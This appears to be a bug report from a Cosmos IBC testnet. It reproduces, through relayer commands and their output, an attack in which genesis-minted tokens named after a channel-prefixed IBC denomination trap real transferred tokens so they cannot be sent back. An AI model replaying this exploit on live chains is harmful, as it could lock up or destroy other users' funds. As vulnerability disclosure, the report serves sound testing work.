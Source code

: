 
# Invalidate REAL tokens by minting fake tokens

## Steps to reproduce
###

### 1. Setup the chain with initial tokens to match with channel names in the path. Let's say the channel name is "regentestchan" and the tokens on destination chain are "doubloons".

```
...
gaiacli gaiad add-genesis-account gozkey 10000000000$DENOM,1000000000000000transfer/regentestchan/doubloons
...
```
This will initialize the account with 2 tokens, one is default chain specific token and other is a fake token to trap destination tokens.

### 2. Initialize the relayer and configure chains, keys
### 3. Create a new path and use "regentestchan" as channel name
 
  ```
  rly pth add regengoz-3 gameofzoneshub-3 regenpath  
  ```
 
*Note: to keep it simple, you can just use "regentestchan" for every input (client, connection and channels). Port is "transfer"*
  
  How the config looks like:
  ```
    Path "regenpath" strategy(naive):
    SRC(regen-3)
    ClientID:     regentestchan
    ConnectionID: regentestchan
    ChannelID:    regentestchan
    PortID:       transfer
    DST(gameofzoneshub-3)
    ClientID:     regentestchan
    ConnectionID: regentestchan
    ChannelID:    regentestchan
    PortID:       transfer
  ```

### 4. Link the path
  ```
  rly tx link regenpath
  ```
  
### 5. Now, query the initial balances
  ```
  root@regen:~# rly q bal regengoz-3
  1000000000000000transfer/regentestchan/doubloons,999999999925000utree

  root@regen:~# rly q bal gameofzoneshub-3
  9999996500doubloons
  ```

### 6. Make a transfer of 10000doubloons from destination chain (hub) to source. 

  ```
  root@regen:~# rly tx transfer gameofzoneshub-3 regengoz-3 10000doubloons false $(rly ch addr regengoz-3)
  I[2020-06-05|09:11:42.089] ✔️ [gameofzoneshub-3]@{46346} - msg(0:transfer) hash(3544031185C720B32AF33F1E5B63F6A12E1C052C626258B505DDE216C73B44D8) 
  I[2020-06-05|09:11:51.962] ✔️ [regengoz-3]@{166} - msg(0:update_client,1:ics04/opaque) hash(D4F98CB4BB85E4D2F0C3B8EC3B9A6517ADA11BC4A319F1FEC6822F7A302A6526) 
  ```

### 7. Query balances
```
  root@regen:~# rly q bal gameofzoneshub-3
  9999986000doubloons
  root@regen:~# rly q bal regengoz-3
  1000000000010000transfer/regentestchan/doubloons,999999999920000utree
```
all looks good, the transferred tokens are appended to initially created fake tokens.

### 8. Now transfer back the tokens from source to chain (i.e., 10000doubloons)
  ```
  root@regen:~# rly tx transfer regengoz-3 gameofzoneshub-3 10000doubloons true $(rly ch addr gameofzoneshub-3)
  I[2020-06-05|09:12:52.274] ✘ [regengoz-3]@{178} - msg(0:transfer) err(sdk:5:failed to execute message; message index: 0: 0doubloons is smaller than 10000doubloons: insufficient funds) 
  Error: failed to send first transaction
  ```
  
This is failing. We are unable to transfer tokens back to the hub. It says it has 0 funds. Can't even transfer single token from zone (source) to hub (dest).
